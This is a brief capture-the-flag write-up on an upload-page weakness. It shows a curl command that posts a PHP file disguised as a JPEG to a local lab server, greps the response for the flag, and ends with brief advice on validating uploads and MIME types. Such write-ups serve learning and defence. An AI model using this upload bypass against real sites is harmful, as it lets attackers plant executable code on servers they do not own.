 # Upload Image
- We can test image validation by uploading other file types.
  
# Vulnerability
- For example this command will send a created php file as an image, also grep helps us find the flag.
__curl -s -X POST -F "uploaded=@evil.php;type=image/jpeg" -F "Upload=Upload" "http://192.168.1.38/index.php?page=upload" | grep 'flag'__
- And there's our flag.
  
# Fix
- Validating uploaded images is important.
- We can also prevent this by checking image mime types.